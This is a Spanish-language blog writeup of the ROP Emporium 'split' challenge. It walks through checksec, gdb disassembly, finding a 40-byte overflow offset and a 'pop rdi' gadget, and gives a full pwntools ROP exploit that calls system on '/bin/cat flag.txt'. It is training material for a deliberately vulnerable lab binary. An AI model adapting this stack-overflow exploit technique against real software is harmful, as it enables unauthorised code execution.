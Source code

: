 ```yaml
---
layout: post
title: Split ROPEmporium (x86_64)
comments: true
categories: [ROPEmporium, Writeups]
---
```


Este será el primer post de los writeups de [ROP Emporium](https://ropemporium.com/challenge/split.html), obviaremos el reto *ret2win*, ya que es
excesivamente simple. Con esta serie de posts aprenderemos sobre una de las técnicas más utilizadas en la explotación de binarios, la 
[***ROP***]({% post_url /teoria/2024-08-15-ROP %}), ó *Return Orineted Programming* (Programación orientada a *return*).

## Reconocimiento

Como siempre comenzamos lanzando *checksec*:

```checksec
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

Vemos que tan solo tiene el *NX bit*, por lo que el ataque será probablemente mediante técnicas de *ROP*.

Analizando con *gdb-pwndbg*:

> **Funciones**
```gdb
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
```

> **Main**
```gdb
0x0000000000400697 <+0>:	push   rbp
0x0000000000400698 <+1>:	mov    rbp,rsp
0x000000000040069b <+4>:	mov    rax,QWORD PTR [rip+0x2009d6]        # 0x601078 <stdout@@GLIBC_2.2.5>
0x00000000004006a2 <+11>:	mov    ecx,0x0
0x00000000004006a7 <+16>:	mov    edx,0x2
0x00000000004006ac <+21>:	mov    esi,0x0
0x00000000004006b1 <+26>:	mov    rdi,rax
0x00000000004006b4 <+29>:	call   0x4005a0 <setvbuf@plt>
0x00000000004006b9 <+34>:	mov    edi,0x4007e8
0x00000000004006be <+39>:	call   0x400550 <puts@plt>
0x00000000004006c3 <+44>:	mov    edi,0x4007fe
0x00000000004006c8 <+49>:	call   0x400550 <puts@plt>
0x00000000004006cd <+54>:	mov    eax,0x0
0x00000000004006d2 <+59>:	call   0x4006e8 <pwnme>
0x00000000004006d7 <+64>:	mov    edi,0x400806
0x00000000004006dc <+69>:	call   0x400550 <puts@plt>
0x00000000004006e1 <+74>:	mov    eax,0x0
0x00000000004006e6 <+79>:	pop    rbp
0x00000000004006e7 <+80>:	ret
```

> **Pwnme**
```gdb
0x00000000004006e8 <+0>:	push   rbp
0x00000000004006e9 <+1>:	mov    rbp,rsp
0x00000000004006ec <+4>:	sub    rsp,0x20
0x00000000004006f0 <+8>:	lea    rax,[rbp-0x20]
0x00000000004006f4 <+12>:	mov    edx,0x20
0x00000000004006f9 <+17>:	mov    esi,0x0
0x00000000004006fe <+22>:	mov    rdi,rax
0x0000000000400701 <+25>:	call   0x400580 <memset@plt>
0x0000000000400706 <+30>:	mov    edi,0x400810
0x000000000040070b <+35>:	call   0x400550 <puts@plt>
0x0000000000400710 <+40>:	mov    edi,0x40083c
0x0000000000400715 <+45>:	mov    eax,0x0
0x000000000040071a <+50>:	call   0x400570 <printf@plt>
0x000000000040071f <+55>:	lea    rax,[rbp-0x20]
0x0000000000400723 <+59>:	mov    edx,0x60
0x0000000000400728 <+64>:	mov    rsi,rax
0x000000000040072b <+67>:	mov    edi,0x0
0x0000000000400730 <+72>:	call   0x400590 <read@plt>
0x0000000000400735 <+77>:	mov    edi,0x40083f
0x000000000040073a <+82>:	call   0x400550 <puts@plt>
0x000000000040073f <+87>:	nop
0x0000000000400740 <+88>:	leave
0x0000000000400741 <+89>:	ret
```

> **UsefulFunction**
```gdb
0x0000000000400742 <+0>:	push   rbp
0x0000000000400743 <+1>:	mov    rbp,rsp
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>
0x0000000000400750 <+14>:	nop
0x0000000000400751 <+15>:	pop    rbp
0x0000000000400752 <+16>:	ret
```

Vemos que tenemos una vulnerabilidad de tipo *Buffer overflow*. Con *cyclic* podemos calcular el offset, que en este caso es **40**.

Vemos también que tenemos una función *usefulFunction*, que nos da una llamada a *system*. Sin embargo, en este caso, se llama a `"/bin/ls"`:

```gdb
0x0000000000400746 <+4>:	mov    edi,0x40084a
0x000000000040074b <+9>:	call   0x400560 <system@plt>

[...]

pwndbg> x/s 0x40084a
0x40084a:	"/bin/ls"
```

Por lo que si conseguimos meter en *rdi* la cadena `"/bin/cat flag"`, nos imprimirá la flag. Por suerte dicha cadena existe en el binario:

```gdb
pwndbg> search "/bin/cat"
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

Solo nos queda buscar un gadget que nos haga el trabajo. En mi caso utilizaré *ROPGadget* (con *ropper* no aparecía):

```bash
ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

## Explotación

El script quedaría:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './split'

ip=""
port=30303

def start():
    if args.REMOTE:
        return remote(ip, port)
    else:
        return process(exe)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 40*b'A'

syscall = 0x000000000040074b
pop_rdi = 0x00000000004007c3
bin_cat = 0x601060

payload = padding + p64(pop_rdi) + p64(bin_cat) + p64(syscall)

io.send(payload)
io.interactive()
```

Al ejecutar nos dará la flag.

Este es un reto sencillito para calentar e ir afianzando los conceptos base. ¡Nos vemos en el siguiente post!
